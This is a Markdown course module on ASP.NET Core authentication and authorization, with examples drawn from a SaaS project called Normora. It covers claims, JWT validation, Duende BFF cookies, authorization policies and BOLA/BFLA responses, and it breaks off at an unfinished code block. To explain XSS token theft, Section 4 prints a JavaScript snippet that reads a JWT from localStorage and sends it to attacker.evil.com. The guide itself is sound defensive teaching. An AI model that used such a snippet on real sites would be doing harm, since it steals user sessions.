




# Module 9: Authentication, Authorization & Identity Architecture

If there is one area where developers guess, copy-paste from StackOverflow, and accidentally create massive security holes, it is Authentication and Authorization. ASP.NET Core has an incredibly powerful, flexible, and robust security system, but it requires understanding the core concepts: **Claims, Identities, Principals, and Modern Architecture Patterns.**

---

## 1. Authentication vs. Authorization

If there is one area where developers guess, copy-paste from online snippets, and accidentally create massive security holes, it is Authentication and Authorization. Understanding the strict boundary between **who the caller is** and **what the caller can do** is the foundation of zero-trust API design.

*   **What they are:**
    *   **Authentication (`AuthN`):** *"Who are you?"* — Verifying a caller's identity using a cryptographic credential (such as an OpenID Connect (OIDC) login, a cryptographically signed JSON Web Token (JWT), or an encrypted server-side session cookie).
    *   **Authorization (`AuthZ`):** *"Are you allowed to perform this action on this resource?"* — Evaluating permissions, roles, workspace memberships, and resource ownership *after* identity is known.
*   **Why separating them matters:** Mixing `AuthN` and `AuthZ` leads to insecure shortcuts (like trusting an unverified `X-User-Id` header or embedding mutable tenant permissions inside a long-lived login token). Keeping them distinct allows your **BFF host** (`Normora.Api`) to verify identity once while your **modules** (`Tenants`, `Documents`, `Conversations`) enforce fine-grained tenant and resource permissions.
*   **How HTTP status codes distinguish them:**
    *   **`401 Unauthorized` (actually means Unauthenticated):** No valid credential was supplied, or the session cookie/token expired. The client must authenticate.
    *   **`403 Forbidden` (BFLA — Broken Function Level Authorization):** The caller *is* authenticated, but lacks the role or policy to invoke that operation (for example, a standard workspace member attempting to change billing currency).
    *   **`404 Not Found` (BOLA — Broken Object Level Authorization):** In Normora, requesting a specific object you do not own or belong to returns `404` (`BolaException` + `ApiMessages.NotFound`) rather than `403`, preventing attackers from enumerating valid resource IDs across tenants or departments.
*   **When NOT to blur them:** Never treat successful authentication (`[Authorize]`) as permission to access data. An employee authenticated with Keycloak can log in to Normora, yet still have zero permission to view Tenant B's documents or trigger an Admin subscription cancellation.

> **Analogy — The Nightclub:**  
> **Authentication** is the bouncer at the front door checking your ID. He verifies you are who you say you are and that your ID is authentic.  
> **Authorization** is the VIP room attendant. He knows who you are (you got past the front door), but he checks his list to see if you have the *permission* to enter the VIP area.

### 5 Real-World Normora `AuthN` vs. `AuthZ` Examples
1. **OIDC Login (`Normora.Api` BFF):** When an employee clicks Sign In in the Angular SPA, Duende BFF redirects to Keycloak to authenticate (`AuthN`). At this point, Normora only knows their `ExternalUserId` and email—not which tenant workspaces they belong to.
2. **Workspace Billing Mutation (`Tenants`):** An authenticated `Member` calls `PUT /api/subscription/currency` (`UpdateTenantCurrencyCommand`). `AuthN` succeeds, but `AuthZ` fails `[RequireTenant(TenantRoles.Admin)]` and throws `BflaException` -> `403 Forbidden` (`ApiMessages.Forbidden`).
3. **Cross-Tenant Policy Lookup (`Documents`):** An authenticated user in Tenant A requests `GET /api/documents/{tenantBDocId}`. `AuthN` succeeds, but `DocumentsDbContext` tenant isolation returns nothing, triggering `BolaException` -> `404 Not Found` (`ApiMessages.NotFound`).
4. **CopilotKit AG-UI Streaming (`/api/copilotkit`):** The endpoint verifies the user's encrypted BFF cookie (`AuthN`) before `NormoraWorkplaceAgent` partitions conversational memory using `NormoraAgentIsolationKeyProvider` (`{TenantId}:{ExternalUserId}`) and runs retrieval filtered by the user's departmental clearances (`AuthZ`).
5. **PayU Payment Callback (`/api/payments/payu/callback`):** The payment gateway sends a server-to-server webhook without a browser session cookie. Here, `AuthN` is performed by verifying PayU's cryptographic HMAC signature over the raw payload rather than cookie authentication.

---

## 2. The Claims-Based Identity Model

In older frameworks, your identity was usually just a Username and a Role (e.g., `User.IsInRole("Admin")`). Modern ASP.NET Core uses **Claims-Based Identity**—a flexible, provider-neutral model capable of representing OIDC tokens, cookies, API keys, and Windows identities uniformly.

### What is a Claim?
A **Claim** is a **statement about the user** issued by a trusted authority (such as Keycloak). It is a typed key-value pair:
*   `"sub": "usr_9812"` — The immutable OIDC subject identifier (which Normora abstracts as `ExternalUserId`).
*   `"email": "alice@normora.com"` — Verified corporate email.
*   `"name": "Alice Chen"` — Display name.

### The Hierarchy: `Claim` -> `ClaimsIdentity` -> `ClaimsPrincipal`
1.  **`Claim`:** A single fact (`Type = "email", Value = "alice@normora.com"`).
2.  **`ClaimsIdentity`:** A collection of Claims representing a single credential mechanism (like a Driver's License or a Corporate Passport), tagged with an `AuthenticationType` (e.g., `"Cookies"` or `"Bearer"`).
3.  **`ClaimsPrincipal`:** The actual `User` object in ASP.NET Core (`HttpContext.User`). A Principal can hold *multiple* `ClaimsIdentity` instances (for example, a primary OIDC cookie identity plus an enriched claims identity added during request processing).



When a user authenticates, ASP.NET Core builds a `ClaimsPrincipal` and attaches it to `HttpContext.User`:

```csharp
// How to read claims safely (avoid hardcoding vendor names like KeycloakUserId)
var externalUserId = HttpContext.User.FindFirst("sub")?.Value
    ?? HttpContext.User.FindFirst(ClaimTypes.NameIdentifier)?.Value;
var email = HttpContext.User.FindFirst("email")?.Value
    ?? HttpContext.User.FindFirst(ClaimTypes.Email)?.Value;
```

### ⚠️ The Legacy Claim-Mapping Trap (`MapInboundClaims = false`)
*   **What happens by default:** For historical backward compatibility with WS-Federation / SAML XML, Microsoft's `JwtSecurityTokenHandler` and `OpenIdConnectHandler` automatically rename standard OIDC claim names like `"sub"` into verbose URIs (`"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier"`).
*   **How to fix it in .NET 10:** Set `options.MapInboundClaims = false;` on your `AddOpenIdConnect(...)` or `AddJwtBearer(...)` options (or clear `JwtSecurityTokenHandler.DefaultInboundClaimTypeMap`). Then `"sub"`, `"email"`, and `"role"` keep their exact OIDC names!

### Enriching Claims with `IClaimsTransformation` (and When NOT to Use It)
*   **What it is:** A built-in ASP.NET Core interface (`Task<ClaimsPrincipal> TransformAsync(ClaimsPrincipal principal)`) invoked after authentication succeeds to attach application-specific claims before authorization policies run.
*   **When to use it:** Mapping static or infrequently changing global attributes (e.g., normalizing an `amr` MFA claim or attaching a `normora_plan` claim from a fast Redis cache).
*   **When NOT to use Claims or `IClaimsTransformation`:**
    1.  **Never put mutable multi-tenant permissions inside login tokens or cookies:** In Normora, Alice can be `Admin` in Tenant A and `Viewer` in Tenant B, and switch workspaces via `X-Tenant-Id` without re-authenticating. Static token claims cannot represent dynamic per-request tenant switching or instant role revocation.
    2.  **Never run uncached SQL queries inside `IClaimsTransformation`:** ASP.NET Core can call `TransformAsync` multiple times during a single request if multiple authentication schemes are evaluated. Always use `TenantResolutionMiddleware` + Redis caching (`ITenantContext`) for workspace permissions, and keep `IClaimsTransformation` idempotent (`if (principal.HasClaim(...)) return principal;`).

### 5 Real-World Normora Claims & Identity Examples
1. **Provider-Neutral `ExternalUserId` (`Normora.Shared`):** Normora maps Keycloak's `sub` claim to `ICurrentUser.ExternalUserId` in `Normora.Api`, ensuring `Tenants`, `Documents`, and `Conversations` never couple to `KeycloakUserId` or vendor-specific claim schemas.
2. **User Invitation Acceptance (`Tenants`):** When a newly invited teammate logs into Keycloak for the first time, `AcceptInvitationCommand` reads `currentUser.Email` and `currentUser.ExternalUserId` from their authenticated `ClaimsPrincipal` to bind their `TenantMembership` record.
3. **`/bff/user` Session Projection (`Normora.Api`):** Duende BFF exposes safe identity claims (`sub`, `name`, `email`) as JSON at `/bff/user` for the Angular SPA to render the user avatar—while keeping raw access/refresh tokens locked on the server.
4. **CopilotKit Thread Partitioning (`NormoraAgentIsolationKeyProvider`):** Extracts `ExternalUserId` from the authenticated principal and combines it with `ITenantContext.TenantId` (`{TenantId}:{ExternalUserId}`) so Alice's AI conversation history is strictly isolated from Bob's.
5. **Audit Trail Attribution (`AuditBehavior`):** Every MediatR command in `Tenants` and `Documents` captures `currentUser.ExternalUserId` alongside `ITenantContext.TenantId` into `AuditLogs` so workspace admins see *who* uploaded or deleted a policy document.

---

## 3. Stateless JWT Bearer Authentication (The NextEvent Approach & OIDC Tokens)

**JSON Web Tokens (JWT)** are the industry standard for stateless authentication across mobile clients, external machine-to-machine integrations, and Identity Provider (IdP) token exchanges. Instead of looking up a server session in Redis or PostgreSQL on every request, the server gives the client a cryptographically signed token containing Claims, and the client sends `Authorization: Bearer <token>`.

### What Is Inside a JWT?
A signed JWT (**JWS**) has three Base64Url-encoded segments separated by dots: `Header.Payload.Signature`.
*   **Header:** Declares the token type (`"typ": "JWT"`) and signing algorithm (`"alg": "RS256"` or `"HS256"`).
*   **Payload:** JSON claims (`"sub"`, `"iss"`, `"aud"`, `"exp"`, `"email"`). **Warning:** Base64Url is *encoding*, NOT encryption—anyone who intercepts a JWT can decode and read its payload. Never store passwords, API keys, or PII secrets inside a JWT.
*   **Signature:** Cryptographic proof computed over `Header.Payload`. Two signing families exist:
    *   **Symmetric (`HS256`):** One shared secret signs *and* verifies the token (used in NextEvent). Simple, but every verifying service must hold the signing secret.
    *   **Asymmetric (`RS256` / `ES256`):** The Identity Provider (such as **Keycloak** in Normora) signs tokens with a **private key**, and APIs automatically fetch the **public keys** from the IdP's **JWKS** (JSON Web Key Set) endpoint via `.well-known/openid-configuration`—supporting zero-downtime key rotation.

### The Flow
1. User sends credentials (or completes an OIDC flow) to the Identity Provider.
2. IdP verifies the credentials and issues a signed JWT containing claims (`sub`, `iss`, `aud`, `exp`).
3. Client sends `Authorization: Bearer <token>` on future API requests.
4. `app.UseAuthentication()` validates the cryptographic signature, issuer, audience, and expiration, then materializes `HttpContext.User` (`ClaimsPrincipal`).

### 🏗️ Real-World Case Study: NextEvent's Symmetric JWT Configuration

NextEvent uses standard symmetric JWT Bearer authentication for its API. Notice how strictly it configures `TokenValidationParameters`:

```csharp
// From NextEvent's API/Extensions/IdentityServiceExtensions.cs
public static IServiceCollection AddIdentityServices(
    this IServiceCollection services, 
    IConfiguration config)
{
    var tokenKey = config["TokenKey"] 
        ?? throw new InvalidOperationException("TokenKey missing in configuration.");
    var issuer = config["Jwt:Issuer"];
    var audience = config["Jwt:Audience"];

    services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
        .AddJwtBearer(opt =>
        {
            opt.MapInboundClaims = false; // Keep standard OIDC claim names ("sub", "email")
            opt.TokenValidationParameters = new TokenValidationParameters
            {
                ValidateIssuerSigningKey = true, // Must have a valid signature
                IssuerSigningKey = new SymmetricSecurityKey(Encoding.UTF8.GetBytes(tokenKey)),
                
                ValidateIssuer = true,           // Must come from our trusted auth server
                ValidIssuer = issuer,
                
                ValidateAudience = true,         // Must be meant for our client application
                ValidAudience = audience,
                
                ValidateLifetime = true,         // Token must not be expired
                ClockSkew = TimeSpan.Zero        // Eliminate the default 5-minute grace period!
            };
        });

    return services;
}
```

> [!TIP]
> **Why `ClockSkew = TimeSpan.Zero` and `ValidTypes` matter:**  
> By default, ASP.NET Core sets `ClockSkew = TimeSpan.FromMinutes(5)`, meaning an expired token stays valid for 5 extra minutes. Setting `TimeSpan.Zero` enforces exact expiration. When using asymmetric OIDC access tokens (like Keycloak), also validate `ValidTypes = ["JWT", "at+jwt"]` so an attacker cannot replay an ID token or unrelated token type against an API endpoint.

### When NOT to Use Stateless JWTs
*   **Browser SPAs (Angular / React):** Storing JWTs in `localStorage` or `sessionStorage` exposes them to Cross-Site Scripting (XSS) theft. Use the **BFF + `HttpOnly` cookie pattern** instead (Section 4).
*   **Instant Session Revocation Requirements:** A stateless JWT remains valid until its `exp` timestamp expires, even if you fire an employee or click "Log out all devices." If immediate revocation is mandatory, either keep JWT lifetimes very short (5 minutes) paired with server-side BFF sessions, or use OAuth2 token introspection/Redis revocation lists.

### 5 Real-World Normora Token & JWT Examples
1. **Keycloak OIDC Backchannel Validation (`Normora.Api`):** When `Normora.Api` exchanges an authorization code with Keycloak (`AddOpenIdConnect`), ASP.NET Core fetches Keycloak's public RS256 keys from `.well-known/openid-configuration` (JWKS) to verify ID token signatures automatically—no shared symmetric secret required.
2. **Server-Side Token Vaulting (`SessionDbContext`):** Normora never forwards Keycloak's JWT access/refresh tokens to the Angular SPA; Duende BFF encrypts and stores them in PostgreSQL (`SessionDbContext`) and manages refresh-token rotation invisibly on the server.
3. **SignalR WebSocket Security (`/hubs/documents` & `/hubs/notifications`):** Traditional JWT SignalR apps pass `?access_token=<jwt>` in the query string, which leaks tokens into reverse-proxy logs and browser history. Normora avoids query-string JWTs entirely because SignalR handshakes ride the encrypted `__Host-normora-bff` cookie.
4. **External Machine-to-Machine & MCP Integrations (`/api/mcp`):** While the Angular UI uses BFF cookies, external AI agent frameworks integrating with Normora's Model Context Protocol (MCP) endpoints require a non-browser bearer credential (short-lived OAuth2 Client Credentials JWT or scoped API token) validated on a separate auth scheme—never disabling auth globally.
5. **Non-HTTP Background Workers (`Normora.Worker`):** Hangfire jobs (`DocumentProcessingJob`, `HangfireDocumentProcessingOutboxDispatcher`) run outside HTTP requests with zero JWTs or cookies; instead of spoofing a user JWT, cross-module calls receive an explicit `Guid TenantId` persisted atomically in `DocumentProcessingOutboxMessage`.

---

## 4. BFF and Cookie Authentication (The Normora Approach)

While stateless JWTs work well for mobile apps and server-to-server APIs, **storing JWTs in a browser (e.g., in `localStorage` or `sessionStorage`) is a massive security hazard for Single Page Applications (SPAs).**

### ⚠️ The Attack Vector: Cross-Site Scripting (XSS) Token Theft
If your Angular or React frontend imports a single compromised third-party npm package, an attacker can execute injected JavaScript:
```javascript
// Malicious script executed via XSS:
const token = localStorage.getItem("jwt_token");
fetch("https://attacker.evil.com/steal?token=" + encodeURIComponent(token));
```
Because JavaScript can read `localStorage`, the attacker steals the user's JWT and impersonates them from anywhere in the world until token expiration.

### 🛡️ The Modern Solution: Duende BFF with Encrypted `HttpOnly` Cookies

In **Normora**, the architecture eliminates this vulnerability using the **Backend-For-Frontend (BFF) Pattern** powered by **Duende BFF** and **Keycloak (OIDC)**:



### Why the BFF Architecture Is Impervious to Token Theft
1.  **`HttpOnly` Cookies + `__Host-` Prefix:** The `__Host-normora-bff` cookie cannot be read by JavaScript (`document.cookie` hides it), eliminating XSS token exfiltration. The `__Host-` browser prefix additionally enforces `Secure`, `Path=/`, and forbids a `Domain` attribute—blocking subdomain cookie-tossing attacks.
2.  **Authorization Code + PKCE + Confidential Backchannel:** **PKCE** (Proof Key for Code Exchange) binds the login redirect to the BFF session, and `Normora.Api` performs the token exchange with Keycloak over a private backchannel using `ClientSecret`. Tokens never touch the browser.
3.  **Encrypted Server-Side Sessions (`SessionDbContext`):** Keycloak access and refresh tokens live strictly in PostgreSQL (`AddEntityFrameworkServerSideSessions<SessionDbContext>`), encrypted via ASP.NET Core Data Protection keys so stateless API replicas share sessions seamlessly.
4.  **Silent Refresh Token Rotation:** When an access token nears expiry, Duende BFF transparently uses the stored refresh token with Keycloak—zero interruption to active Angular chat streams.
5.  **Anti-CSRF Defense (`SameSite=Strict` + `X-CSRF: 1`):** Because browsers send cookies automatically, cookie-based APIs must defend against **Cross-Site Request Forgery (CSRF)** (a malicious site tricking the browser into submitting a request). Duende BFF combines `SameSite=Strict` with a mandatory custom header (`X-CSRF: 1`) on `AsBffApiEndpoint()` routes—a header cross-origin forms cannot forge.

### Normora's BFF Configuration

```csharp
// From Normora.Api/Extensions/IdentityServiceExtensions.cs & Program.cs

// 1. Register BFF services with encrypted PostgreSQL server-side sessions
builder.Services.AddBff()
    .AddEntityFrameworkServerSideSessions<SessionDbContext>();

// 2. Configure Cookie Authentication as default scheme, OIDC for login challenges
builder.Services.AddAuthentication(options =>
{
    options.DefaultScheme = CookieAuthenticationDefaults.AuthenticationScheme;
    options.DefaultChallengeScheme = OpenIdConnectDefaults.AuthenticationScheme;
})
.AddCookie(CookieAuthenticationDefaults.AuthenticationScheme, options =>
{
    options.Cookie.Name = "__Host-normora-bff";
    options.Cookie.SameSite = SameSiteMode.Strict;
    options.Cookie.SecurePolicy = CookieSecurePolicy.Always;
    options.Cookie.HttpOnly = true;
})
.AddOpenIdConnect(OpenIdConnectDefaults.AuthenticationScheme, options =>
{
    options.Authority = configuration["Keycloak:Authority"];
    options.ClientId = configuration["Keycloak:ClientId"];
    options.ClientSecret = configuration["Keycloak:ClientSecret"];
    options.ResponseType = OpenIdConnectResponseType.Code;
    options.ResponseMode = OpenIdConnectResponseMode.Query;
    options.MapInboundClaims = false; // Preserve standard OIDC claims ("sub", "email")
    options.UsePkce = true;
    options.SaveTokens = true; // Stored securely in server session, NOT browser!
});

// 3. Mount in middleware pipeline
app.UseAuthentication();
app.UseBff();                       // Validates session cookies and X-CSRF: 1 anti-forgery header
app.UseAuthorization();
app.MapBffManagementEndpoints();    // Exposes /bff/login, /bff/logout, /bff/user, /bff/diagnostics
app.MapControllers().AsBffApiEndpoint();
```

> [!IMPORTANT]
> **BFF Antiforgery Scope Discipline:**  
> Map embedded MVC APIs with `AsBffApiEndpoint()` and apply an explicit skip-antiforgery attribute **only** to externally signed webhooks (such as PayU billing callbacks). Never bypass antiforgery by matching `Endpoint.DisplayName` strings or broadly skipping every `[AllowAnonymous]` endpoint!

### When NOT to Use the BFF Pattern
*   **Native Mobile Apps (iOS / Android) or Desktop CLIs:** They cannot rely on browser cookies or host a confidential `ClientSecret` on-device; use public OAuth2 Authorization Code + PKCE stored in OS Keychain / Keystore.
*   **Pure Machine-to-Machine (M2M) Microservices or Public Read-Only APIs:** Server-to-server clients have no browser session or CSRF risk; use OAuth2 Client Credentials JWTs instead.

### 5 Real-World Normora BFF & Cookie Examples
1. **Session Lifecycle (`/bff/login`, `/bff/logout`, `/bff/user`):** The Angular app checks `/bff/user` at boot to hydrate the current user's profile (`sub`, `email`) and triggers `/bff/logout` (with `X-CSRF: 1`) to revoke both the `SessionDbContext` entry and Keycloak SSO session via front-channel/back-channel logout.
2. **Protected Workspace APIs (`AsBffApiEndpoint()`):** Every `Tenants`, `Documents`, and `Conversations` controller action requires both a valid `__Host-normora-bff` cookie and the `X-CSRF: 1` header injected by Angular's HTTP interceptor.
3. **CopilotKit AG-UI Streaming (`/api/copilotkit`):** The native `Microsoft.Agents.AI.Hosting.AGUI.AspNetCore` endpoint runs inside `Normora.Api` behind BFF authentication and anti-CSRF, ensuring SSE token streams inherit the verified user identity.
4. **Real-Time SignalR Hubs (`/hubs/documents`, `/hubs/notifications`):** Browser WebSocket upgrades automatically carry the `__Host-normora-bff` cookie over same-origin TLS, allowing `DocumentHub` to authenticate connections without exposing tokens in query strings.
5. **PayU Gateway Callback Exception (`/api/payments/payu/callback`):** PayU's server posts form data directly to `Normora.Api` without a browser cookie or `X-CSRF: 1` header; this single endpoint explicitly skips BFF antiforgery and authenticates the request via PayU's SHA-512 HMAC signature (`udf3 = "{currency}:{cycle}"`).

---

## 5. Authorization — Roles, Declarative Policies & Custom Requirements

Once `Authentication` knows *who* the caller is, `Authorization` determines what they can *do*.

### The Old Way: Static Roles
Roles are simple string categories (`"Admin"`, `"User"`, `"Manager"`):

```csharp
[Authorize(Roles = "Admin")]
public IActionResult DeleteUser(Guid id)
```

**The Problem with Roles:** What happens when the business says, *"Managers can delete users, but only if the user belongs to their assigned department and MFA is enabled"?* A flat Role string cannot express compound rules, forcing `if (...)` permission checks to leak across controllers.

### The Modern Way: Declarative Policies
**Policies** are named **rules** registered once in DI and evaluated against the user's `ClaimsPrincipal` (and optionally custom services) before the endpoint runs.

```csharp
// Defining the policy in Program.cs (NextEvent)
services.AddAuthorization(options =>
{
    options.AddPolicy("ActiveOrganizer", policy =>
    {
        policy.RequireRole(RoleConstants.Organizer); // Must be an organizer
        policy.RequireClaim("ActiveProfile", "Organizer"); // Must have this specific claim
    });
});
```

```csharp
// Applying the policy to a controller
[Authorize(Policy = "ActiveOrganizer")]
[HttpPost]
public IActionResult CreateEvent(CreateEventDto dto)
```

If the business rule changes (e.g., *"ActiveOrganizers must also have a verified phone number"*), you update the Policy definition in one place without touching controllers.

### Custom `IAuthorizationRequirement` & `AuthorizationHandler<T>` (The Architect's Tool)
*   **What it is:** A pair of types—an `IAuthorizationRequirement` marker/data record describing the rule, and an `AuthorizationHandler<TRequirement>` class (with primary constructor DI!) that evaluates it asynchronously against `AuthorizationHandlerContext`.
*   **Why use it:** Simple `RequireClaim` calls cannot query scoped services (like `ITenantContext` or subscription features), check minimum subscription tiers, or evaluate dynamic workspace conditions.
*   **How it works (Normora Feature-Gate Requirement using C# 14 Primary Constructors):**

```csharp
// 1. Requirement definition
public sealed record ActiveWorkspaceSubscriptionRequirement(TenantPlanTier MinimumTier)
    : IAuthorizationRequirement;

// 2. Handler using primary constructor DI (registered as Scoped because ITenantContext is Scoped)
public sealed class ActiveWorkspaceSubscriptionHandler(
    ITenantContext tenantContext)
    : AuthorizationHandler<ActiveWorkspaceSubscriptionRequirement>
{
    protected override Task HandleRequirementAsync(
        AuthorizationHandlerContext context,
        ActiveWorkspaceSubscriptionRequirement requirement)
    {
        if (tenantContext.IsResolved && tenantContext.PlanTier >= requirement.MinimumTier)
        {
            context.Succeed(requirement);
        }

        // Calling neither Succeed() nor Fail() lets other handlers run;
        // calling context.Fail() explicitly blocks even if another handler succeeds.
        return Task.CompletedTask;
    }
}
```

### Secure-by-Default: `FallbackPolicy` vs. `DefaultPolicy`
*   **`DefaultPolicy`:** Applied whenever you write bare `[Authorize]` without arguments.
*   **`FallbackPolicy`:** Applied automatically to **every endpoint in the entire application** that has *neither* `[Authorize]` *nor* `[AllowAnonymous]`.
*   **Why architects always set `FallbackPolicy`:** If a developer forgets `[Authorize]` on a new controller or Minimal API route, `FallbackPolicy` denies anonymous callers with `401` by default—making exposure an explicit, code-reviewed opt-in (`[AllowAnonymous]`).

```csharp
builder.Services.AddAuthorizationBuilder()
    .SetFallbackPolicy(new AuthorizationPolicyBuilder()
        .RequireAuthenticatedUser()
        .Build());
```

### When NOT to Use Static Declarative Policies
*   **Per-Record Ownership or ACLs:** A policy runs *before* your handler loads a `Document` or `Conversation` from PostgreSQL; it cannot inspect row-level `DepartmentId` or `CreatedByExternalUserId` (use Resource-Based Authorization in Section 6).
*   **Heavy Uncached Database Queries inside Every Handler:** An `AuthorizationHandler` runs on every matched endpoint invocation. Never run uncached database roundtrips inside global handlers—read from scoped `ITenantContext` populated once per request from Redis.

### 5 Real-World Normora Policy & Requirement Examples
1. **Global `FallbackPolicy` (`Normora.Api`):** Every controller, SignalR hub (`/hubs/documents`, `/hubs/notifications`), and AG-UI route (`/api/copilotkit`) requires an authenticated BFF session unless explicitly marked `[AllowAnonymous]`.
2. **Webhook `[AllowAnonymous]` Opt-Out (`Tenants` PayU Callback):** `/api/payments/payu/callback` uses `[AllowAnonymous]` and explicit antiforgery opt-out because PayU servers do not hold a Normora browser cookie; security relies on HMAC signature verification instead.
3. **BFF Management Health & Login Endpoints (`/bff/login`, `/healthz`):** Liveness/readiness probes and the OIDC login trigger explicitly permit anonymous requests while keeping `/bff/user` and `/api/*` locked down.
4. **Scoped Tenant & Role Verification (`[RequireTenant]`):** Combines `ICurrentUser.IsAuthenticated` with `ITenantContext` role checks (`Admin`, `Manager`, `Member`) to guard workspace mutations in `Tenants`, `Documents`, and `Conversations`.
5. **Subscription Tier Gate (`Pro` / `Enterprise`):** Evaluating `ITenantContext` plan tier via a custom `IAuthorizationRequirement` ensures Free-tier workspaces cannot invoke Enterprise-only white-label branding or advanced MCP integrations, returning structured `403` (`ApiMessages.Forbidden`) rather than leaking internal checks.

---

## 6. Advanced Authorization: Resource-Based Authorization & BOLA/BFLA

Sometimes a static policy isn't enough because permission depends on the **specific database record being accessed or mutated**.

*   **What it is:** Evaluating authorization *after* loading (or while querying) a domain entity—checking ownership (`CreatedByExternalUserId`), departmental ACLs, workspace isolation (`TenantId`), or approval ownership.
*   **Why you need it:** Route attributes like `[RequireTenant(TenantRoles.Member)]` cannot know whether Document `9b1deb4d` belongs to Tenant B, is restricted to the `HR` department, or was created by a different employee.
*   **Two Ways to Implement It in ASP.NET Core:**
    1.  **ASP.NET Core `IAuthorizationService` + `AuthorizationHandler<TRequirement, TResource>`:** Ideal when multiple controllers or Minimal APIs share the same resource rule on an already-loaded entity (`await authorizationService.AuthorizeAsync(User, resource, new DocumentEditRequirement())`).
    2.  **CQRS Handler-Level Resource Checks (Normora's Pattern):** In a Modular Monolith where controllers are thin MediatR dispatchers and `DbContext` instances are strictly private to each module, resource checks live inside the module's Application handler (`CommandHandler` / `QueryHandler`) using primary-constructor DI.

### Normora's BOLA (`404`) vs. BFLA (`403`) Authorization Contract
*(See [Module 7](07_Module_7_Error_Handling.md) for how `GlobalExceptionHandler` maps these exceptions to JSON responses.)*

*   **BOLA (Broken Object Level Authorization -> `throw new BolaException()` -> `404 Not Found` with `ApiMessages.NotFound`):** If a caller requests an object outside their tenant, department/user-group clearance, or personal ownership, returning `403` confirms the ID exists. Throwing `BolaException` reveals zero existence metadata.
*   **BFLA (Broken Function Level Authorization -> `throw new BflaException()` -> `403 Forbidden` with `ApiMessages.Forbidden`):** If a caller lacks the functional role/privilege to execute an action on an allowed workspace (or tries to perform a privileged operation like approving someone else's HITL request), throw `BflaException` -> `403`. Never return empty `Forbid()` in controllers!



```csharp
